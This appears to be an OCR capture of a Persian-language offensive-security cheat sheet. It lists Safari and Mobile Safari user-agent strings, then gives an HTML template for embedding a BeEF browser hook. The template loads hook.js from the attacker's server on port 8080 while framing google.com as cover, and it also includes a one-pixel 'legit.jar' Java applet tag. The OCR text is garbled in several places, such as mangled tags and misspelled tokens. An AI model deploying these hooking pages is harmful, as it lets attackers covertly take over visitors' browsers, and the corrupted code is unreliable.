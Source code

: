 ### Safari \(6.0\)

| **Agent** | **Version** |
| :--- | :--- |
| Mozilla/5.0 \(Macintosh; Intel Mac OS X 10 ~ 5\) AppleWebKit/536.26.17 \(KHTML, like Ge~ko\) Version/6.0.2 Safari/536.26.17 | Safari 6.0/MacOSX |

### Mobile safari \(4.0 & 6.0\)

| **Agent** | **نسخه** |
| :--- | :--- |
| Mozilla/5.0 \(iPad; CPU OS 6 0 1 like Mac OS X\) AppleWebKit/536.26 \(KHTML, like Gecko\) Version/6.0 Mobile/10A523 Safari/8536.25 | Mobile Safari 6.0/iOS \(iPad\) |
| Mozilla/5.0 \(iPhone; CPU iPhone OS 6 0 1 like l~ac OS X\) AppleWebKit/536.26 \(KHTML, like Gecko\) Version/6.0 Mobile/10A523 Safari/8536.25 | Mobile Safari 6.0/iOS \(iPhone\) |
| Mozilla/5.0 \(Linux; U; Android 2.2; fr-fr; Desire A8181 Build/FRF91\) App3leWebKit/53.1 \(KHTML, like Gecko\) Version/4. 0 Mobile Safari/533.1 | Mobile Safari 4.0/Android |

## زبان HTML

### کد beef جا ساز شده در iframe

```text
!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
html
head.
title Campaign Title· /title
script
var commandModuleStr = ' script src= "' + window.location.protocol +
'//' + window. location. host + ':8080/hook.js"
type="text/javascript" \/script.';
document.write(commandModuleStr);
//Site refresh=window.setTimeout(function() {window.location.href='http://ww
w.google.com/'},20000);
/script
/head
frameset rows="*,1px"
frame src="http://www.google.com/" frameborder=O
noresize="noresize" /
frame src="/e" frarneborder=O scrolling=no noresize=noresize /
/frameset
/html
```

### کد java applet جاساز شده \(\* باید در &lt;body&gt; قرار بگیرد\)

```text
applet archive="legit.jar" code="This is a legit applet" width="1"
height="1"
/applet
```
